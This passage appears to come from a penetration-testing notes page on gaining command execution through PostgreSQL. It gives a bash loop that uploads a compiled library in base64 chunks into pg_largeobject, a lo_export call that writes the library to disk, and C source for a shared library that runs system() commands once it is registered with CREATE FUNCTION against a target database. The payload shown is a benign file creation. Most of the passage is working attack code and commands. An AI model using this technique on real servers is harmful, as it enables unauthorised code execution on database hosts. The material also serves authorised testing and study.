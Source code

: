 ```bash
$ export LOID='lo_create result'

$ split -b 2048 function_poc

$ CNT=0; for f in x*; do echo '\set c'${CNT}' `base64 -w 0 '${f}'`'; echo 'INSERT INTO pg_largeobject (loid, pageno, data) values ('${LOID}', '${CNT}', decode(:'"'"c${CNT}"'"', '"'"'base64'"'"'));'; CNT=$(( CNT + 1 )); done > upload.sql
```

```sql
SELECT lo_export(number, '/tmp/lo_poc');
```

# PostgreSQL CREATE FUNCTION

Postgres allows shared libraries to be imported and used as functions with the [CREATE FUNCTION](https://www.postgresql.org/docs/current/sql-createfunction.html)
command.  These functions can then be used for command execution.

This section is based on [pgexec](https://github.com/Dionach/pgexec/) by Dionach.
Ensure that postgres is built and installed from source.  The version must match that of the target database.

Use the following to compile each example.

```bash
$ export PATH="/usr/local/pgsql/bin:$PATH"

$ gcc -I$(pg_config --includedir-server) -shared -fPIC -o <output> <source>
```

## Arbitrary command execution - functions

```c
#include <string.h>
#include "postgres.h"
#include "fmgr.h"

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

PG_FUNCTION_INFO_V1(pgfunc);

Datum
pgfunc(PG_FUNCTION_ARGS) {
    system("touch /tmp/function_code_execution");

    PG_RETURN_INT32(0);
}
```

Create the function `poc` with the compiled `pgfunc` library and execute with the `SELECT` statement.
